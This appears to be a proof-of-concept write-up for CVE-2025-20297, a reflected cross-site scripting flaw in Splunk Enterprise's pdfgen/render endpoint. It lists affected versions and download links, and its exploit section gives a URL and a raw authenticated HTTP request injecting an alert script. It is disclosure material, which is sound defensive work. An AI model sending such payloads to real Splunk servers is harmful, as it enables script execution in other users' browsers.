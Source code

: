 ## CVE-2025-20297
## VULNERABILITY DETAILS
Reflected Cross-Site Scripting (XSS) on Splunk Enterprise through dashboard PDF generation component

## Description
In Splunk Enterprise versions below 9.4.2, 9.3.4 and 9.2.6, and Splunk Cloud Platform versions below 9.3.2411.102, 9.3.2408.111 and 9.2.2406.118, a low-privileged user that does not hold the “admin” or “power” Splunk roles could craft a malicious payload through the pdfgen/render REST endpoint that could result in execution of unauthorized JavaScript code in the browser of a user.

## VULNERABILITY
splunk-9.3.0-51ccf43db5bd-linux-2.6-amd64 (tested)

## Diff splunk-9.3.0-51ccf43db5bd-linux-2.6-amd64 VS splunk-9.3.4-30e72d3fb5f7-linux-2.6-amd64
Download: https://download.splunk.com/products/splunk/releases/9.3.0/linux/splunk-9.3.0-51ccf43db5bd-linux-2.6-amd64.deb
Download: https://download.splunk.com/products/splunk/releases/9.3.4/linux/splunk-9.3.4-30e72d3fb5f7-linux-2.6-amd64.deb

![image](https://github.com/user-attachments/assets/28686a3c-3b89-4ffb-94f7-205276b7ae73)


## Exploit:
Require login => execute javascript
```
http://<Host>:8000/en-US/splunkd/__raw/services/pdfgen/render?type=<script>alert(document.domain)</script>

```
```
GET /services/pdfgen/render?type=<script>alert(document.domain)</script> HTTP/1.1
Host: <Host>:8089
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Connection: close
Cache-Control: max-age=0
Authorization: Basic username:password
```


https://github.com/user-attachments/assets/5d08ed56-0a1b-42f2-8b99-f8e0aaac782d




## References:
- https://advisory.splunk.com/advisories/SVD-2025-0601
- https://nvd.nist.gov/vuln/detail/CVE-2025-20297
- https://www.fosstechnix.com/how-to-install-splunk-on-ubuntu-24-04-lts/
